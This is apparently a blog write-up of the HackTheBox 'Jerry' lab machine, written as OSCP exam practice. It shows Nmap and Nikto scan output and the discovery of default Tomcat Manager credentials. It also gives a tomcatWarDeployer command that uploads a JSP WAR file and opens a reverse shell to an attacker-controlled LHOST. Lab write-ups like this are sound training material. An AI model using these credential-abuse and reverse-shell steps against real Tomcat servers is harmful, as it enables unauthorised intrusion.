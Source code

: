 ```yaml
---
layout: post
title: HackTheBox Jerry Writeup - OSCP Practice 
categories: [security, hackthebox, oscp-writeups, thursday-snack]
tags: [security, hackthebox, oscp]
description: A comprehensive writeup on HackTheBox Jerry VM which helps learn and practice for OSCP.
---
```



### Quick Overview

[Jerry](https://app.hackthebox.com/machines/144) is one of the Windows Box from [TJNull OSCP Practice list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). It's one of those quite easy machine where you get initial foothold & privilege escalation in a single hop.

![Jerry VM - HacktheBox Logo](/assets/media/htb-jerry-logo.jpg)

### Enumeration

#### NMapAutomator

Started with enumerating the target with [`NMapAutomator`](https://github.com/21y4d/nmapAutomator) script since it helps in automating all possible ports with vulnerability scripts from `nmap`. Additionally, `NmapAutomator` can help in recon process using `ffuf`, `nikto`, `DNSRecon`, `SMB` enumeration.

> `sudo nmapAutomator.sh -H $IP --type All`

```bash
Running all scans on jerry.htb with IP 3(NXDOMAIN)
No ping detected.. Will not use ping scans!
Host is likely running Unknown OS!
---------------------Starting Port Scan-----------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
---------------------Starting Script Scan-----------------------
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

---------------------Starting Full Scan------------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
No new ports
```

#### Nikto Scan 

```
---------------------Running Recon Commands--------------------
Starting nikto scan                                                                                                    
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.136.9
+ Target Hostname:    jerry.htb
+ Target Port:        8080
+ Start Time:         2023-02-26 17:43:42 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7890 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2023-02-26 17:46:58 (GMT-5) (196 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
Finished nikto scan
```

#### Suspect 1

If you're familiar with Apache Tomcat and Java (JSP) based development, You'll certainly create a reverse shell out of this `Tomcat Manager` exposed in port `8080` with zero assistance from tooling. After checking the Nikto results, looks like `Tomcat Manager` has been exposed and it has few passwords in `<TOMCAT_HOME>/conf/tomcat-users.xml`. While trying to perform login, the error page actually exposes the password.

![Hackthebox - Jerry VM - Tomcat Manager Password exposure](/assets/media/htb-jerry-enumeration-2.png)

After consuming the password of `tomcat` user as `s3cret`, We're now able to manage, upload, destroy `JSP` based application via Tomcat Manager. This clearly shows a way to perform `Code execution` via uploading JSP War File. 

![Hackthebox - Jerry VM - Tomcat Manager](/assets/media/htb-jerry-tomcat-manager.png)

### Local Shell

Upon scrolling down in the same `Tomcat Manager` page, you may find an option to upload and deploy `war` file. This is where [`TomcatWarDeployer`](https://github.com/mgeeky/tomcatWarDeployer) comes useful. The only caveat was latest python 3.10 wasn't working with the script. I had to do bunch of changes as like `decode('utf-8')` & `encode()` between `str` and `byte` datastructure. This TomcatWarDeployer authenticate with `tomcat` user credentials and upload `jsp_app` and spawns a `reverse shell` in the same terminal.

`> python tomcatWarDeployer.py -U tomcat -P s3cret -H LHOST -p 443 jerry.htb:8080`

![Hackthebox - Jerry VM - Local Shell](/assets/media/htb-jerry-local-shell.png)

### Privilege Escalation

If you take a closer look at the `whoami` result `nt authority\system` which is already system admin level permission in Windows. You can grab your flags from Administrator\Desktop\flags directory. You can actually find couple of flags in `2 for the price of 1.txt` file.

```powershell
C:\apache-tomcat-7.0.88> cd flags                                                                                     

C:\Users\Administrator\Desktop\flags>

C:\apache-tomcat-7.0.88> dir                                                                                          
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,015,680 bytes free
```

![HackTheBox - Shivasurya.me](/assets/media/htb-sherlock.webp)

### Closing Note:

I hope this post is helpful for folks preparing for Offensive Security Certified Professional certification exam. For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
